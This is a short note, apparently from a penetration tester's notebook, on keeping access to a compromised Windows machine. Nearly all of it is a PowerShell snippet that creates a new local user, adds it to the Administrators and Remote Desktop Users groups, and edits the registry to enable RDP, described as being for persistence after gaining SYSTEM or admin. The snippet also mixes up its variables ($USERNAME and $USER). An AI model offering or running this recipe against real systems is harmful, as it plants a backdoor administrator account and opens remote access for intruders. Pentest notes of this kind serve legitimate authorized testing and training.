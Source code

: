 # How to Quickly Add a User on Windows

**author**:: Nathan Acks  
**date**:: 2022-04-25

If you've got SYSTEM (or just even local admin) on a Windows box, you can quickly add a new user from your shell for persistence and/or RDP access (useful for Impacket, etc.).

```powershell
net user $USERNAME $PASSWORD /add
net localgroup Administrators $USER /add
net localgroup "Remote Desktop Users" $USER /add
reg add `
	"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" `
	/v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## Related Video

[Alice with Siddicky (Student Mentor) (YouTube)](https://www.youtube.com/watch?v=Zma6Mk5bEI8)

